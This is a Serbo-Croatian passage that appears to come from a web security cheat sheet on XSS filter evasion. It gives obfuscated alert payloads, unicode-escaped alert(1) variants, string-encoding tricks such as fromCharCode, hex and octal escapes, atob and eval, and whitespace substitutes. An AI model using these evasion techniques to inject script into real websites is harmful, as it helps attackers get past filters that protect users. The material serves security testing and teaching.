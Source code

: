 Primjer:

```html
<script>
var _0x9a16=["\x68\x65\x6C\x6C\x6F\x20\x66\x72\x6F\x6D\x20\x58\x53\x53"];alert(_0x9a16[0]);
</script>
```

Ovaj kod će prikazati `Hello from XSS` poruku.

```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```

### Tehnike za zaobilaženje crnih lista JavaScript-a

**Stringovi**

```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
"\h\e\l\l\o"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```

**Posebni escape-ovi**

```javascript
'\b' //backspace
'\f' //form feed
'\n' //new line
'\r' //carriage return
'\t' //tab
'\b' //backspace
'\f' //form feed
'\n' //new line
'\r' //carriage return
'\t' //tab
// Any other char escaped is just itself
```

**Zamene razmaka unutar JS koda**

```javascript
<TAB>
/**/
```
